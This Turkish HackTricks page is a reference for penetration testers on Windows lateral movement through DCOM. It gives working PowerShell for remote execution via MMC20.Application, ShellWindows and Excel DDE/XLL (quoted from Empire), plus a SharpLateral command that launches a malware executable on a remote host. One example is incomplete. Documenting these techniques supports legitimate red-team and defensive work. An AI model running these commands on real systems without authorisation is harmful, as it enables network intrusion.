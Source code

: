 # DCOM Exec

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana dönüşün</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile</strong>!</summary>

* **Bir siber güvenlik şirketinde mi çalışıyorsunuz? Şirketinizin **HackTricks'te reklamını görmek ister misiniz**? ya da **PEASS'ın en son sürümüne erişmek veya HackTricks'i PDF olarak indirmek ister misiniz**? [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* [**Resmi PEASS & HackTricks ürünlerini alın**](https://peass.creator-spring.com)
* **Katılın** [**💬**](https://emojipedia.org/speech-balloon/) **Discord grubuna**](https://discord.gg/hRep4RUj7f) veya **telegram grubuna** veya **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**'u takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **ve** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **ile paylaşın**.

</details>

**Try Hard Güvenlik Grubu**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## MMC20.Application

**Bu teknik hakkında daha fazla bilgi için orijinal yazıya [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/) adresinden bakın**


Dağıtılmış Bileşen Nesne Modeli (DCOM) nesneleri, nesnelerle ağ tabanlı etkileşimler için ilginç bir yetenek sunar. Microsoft, DCOM ve Bileşen Nesne Modeli (COM) için kapsamlı belgeler sağlar, [buradan DCOM için](https://msdn.microsoft.com/en-us/library/cc226801.aspx) ve [buradan COM için](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx) erişilebilir. Bir PowerShell komutu kullanarak DCOM uygulamalarının bir listesini alabilirsiniz:
```bash
Get-CimInstance Win32_DCOMApplication
```
COM nesnesi, [MMC Uygulama Sınıfı (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), MMC eklentisi işlemlerinin betikleme işlevini sağlar. Özellikle, bu nesne `Document.ActiveView` altında `ExecuteShellCommand` yöntemini içerir. Bu yöntem hakkında daha fazla bilgi [burada](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx) bulunabilir. Şunu çalıştırarak kontrol edin:

Bu özellik, bir DCOM uygulaması aracılığıyla ağ üzerinden komutların yürütülmesini kolaylaştırır. Uzaktan yönetici olarak DCOM ile etkileşim kurmak için PowerShell şu şekilde kullanılabilir:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
Bu komut DCOM uygulamasına bağlanır ve bir COM nesnesinin bir örneğini döndürür. Ardından ExecuteShellCommand yöntemi çağrılabilir ve uzak makinede bir işlemi yürütmek için kullanılabilir. İşlem aşağıdaki adımları içerir:

Yöntemleri kontrol et:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
RCE Al:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**Bu teknik hakkında daha fazla bilgi için orijinal yazıya [buradan](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/) ulaşabilirsiniz.**

**MMC20.Application** nesnesinin açık "LaunchPermissions" eksikliği tespit edildi ve bu varsayılan olarak Yöneticilere erişim izni veren izinlere sahiptir. Daha fazla ayrıntı için [buradaki](https://twitter.com/tiraniddo/status/817532039771525120) konuya bakılabilir ve [@tiraniddo](https://twitter.com/tiraniddo)’nın OleView .NET'in kullanımı önerilir.

Özel olarak, `ShellBrowserWindow` ve `ShellWindows` nesneleri, açık Launch Permissions'a sahip olmaması nedeniyle vurgulandı. `HKCR:\AppID\{guid}` altında `LaunchPermission` kaydının bulunmaması açık izinlerin olmadığını gösterir.

###  ShellWindows
ProgID eksik olan `ShellWindows` için, .NET yöntemleri `Type.GetTypeFromCLSID` ve `Activator.CreateInstance` nesneyi AppID'si kullanarak oluşturmayı kolaylaştırır. Bu işlem, OleView .NET'in kullanımını gerektiren `ShellWindows` için CLSID'yi almak için kullanılır. Bir kere oluşturulduktan sonra, etkileşim `WindowsShell.Item` yöntemi aracılığıyla mümkün olur ve `Document.Application.ShellExecute` gibi yöntem çağrılarına yol açar.

Örnek PowerShell komutları, nesneyi oluşturmak ve uzaktan komutları yürütmek için sağlanmıştır:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Excel DCOM Nesneleri ile Yana Hareket

Yana hareket, DCOM Excel nesnelerini istismar ederek gerçekleştirilebilir. Detaylı bilgi için, Excel DDE'nin DCOM aracılığıyla yana hareket için nasıl kullanılabileceğine dair tartışmayı [Cybereason'un blogunda](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom) okumanız önerilir.

Empire projesi, Excel'in DCOM nesnelerini manipüle ederek uzaktan kod yürütme (RCE) için Excel'in kullanımını gösteren bir PowerShell betiği sağlar. Aşağıda, Excel'in RCE için istismar edilmesi için farklı yöntemleri sergileyen [Empire'in GitHub deposunda](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) bulunan betikten alınan parçalar bulunmaktadır:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Yana Hareket için Otomasyon Araçları

Bu teknikleri otomatikleştirmek için iki araç öne çıkar:

- **Invoke-DCOM.ps1**: Uzak makinelerde kod yürütmek için farklı yöntemleri çağırmayı basitleştiren Empire projesi tarafından sağlanan bir PowerShell betiği. Bu betik, Empire GitHub deposunda erişilebilir durumdadır.

- **SharpLateral**: Uzaktan kod yürütmek için tasarlanmış bir araç, aşağıdaki komutla kullanılabilir:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Otomatik Araçlar

* [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) adlı Powershell betiği, diğer makinelerde kodu yürütmenin yorumlanmış tüm yollarını kolayca çağırmayı sağlar.
* Ayrıca [**SharpLateral**](https://github.com/mertdas/SharpLateral) kullanabilirsiniz:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Referanslar

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

**Try Hard Security Group**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

<details>

<summary><strong>Sıfırdan Kahraman'a AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

